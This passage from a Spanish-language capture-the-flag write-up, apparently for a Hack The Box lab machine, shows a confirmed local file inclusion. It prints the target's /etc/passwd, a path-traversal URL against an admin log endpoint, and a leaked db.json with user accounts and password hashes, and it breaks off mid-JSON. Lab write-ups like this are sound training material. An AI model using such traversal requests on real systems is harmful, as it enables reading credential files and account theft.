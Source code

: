 ```
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
usbmux:x:100:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:102:102::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:992:992:systemd Resolver:/:/usr/sbin/nologin
pollinate:x:103:1::/var/cache/pollinate:/bin/false
polkitd:x:991:991:User for polkitd:/:/usr/sbin/nologin
syslog:x:104:104::/nonexistent:/usr/sbin/nologin
uuidd:x:105:105::/run/uuidd:/usr/sbin/nologin
tcpdump:x:106:107::/nonexistent:/usr/sbin/nologin
tss:x:107:108:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:108:109::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:989:989:Firmware update daemon:/var/lib/fwupd:/usr/sbin/nologin
web:x:1001:1001::/home/web:/bin/bash
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
snapd-range-524288-root:x:524288:524288::/nonexistent:/usr/bin/false
snap_daemon:x:584788:584788::/nonexistent:/usr/bin/false
mark:x:1002:1002::/home/mark:/bin/bash
_laurel:x:101:988::/var/log/laurel:/bin/false
dhcpcd:x:110:65534:DHCP Client Daemon,,,:/usr/lib/dhcpcd:/bin/false
```

Con esto confirmamos que efectivamente si hay un `LFI`.

Despues de un rato investigando por los `paths` encontramos un `db.json` de esta forma:

```
URL = http://<IP>:8000/admin/get_system_log?log_identifier=../db.json
```

Info:

```json
{
    "users": [
        {
            "username": "admin@imagery.htb",
            "password": "5d9c1d507a3f76af1e5c97a3ad1eaa31",
            "isAdmin": true,
            "displayId": "a1b2c3d4",
            "login_attempts": 0,
            "isTestuser": false,
            "failed_login_attempts": 0,
            "locked_until": null
        },
        {
            "username": "testuser@imagery.htb",
            "password": "2c65c8d7bfbca32a3ed42596192384f6",
            "isAdmin": false,
            "displayId": "e5f6g7h8",
            "login_attempts": 0,
            "isTestuser": true,
            "failed_login_attempts": 0,
            "locked_until": null
        }
    ],
    "images": [],
    "image_collections": [
        {
            "name": "My Images"
        },
        {
```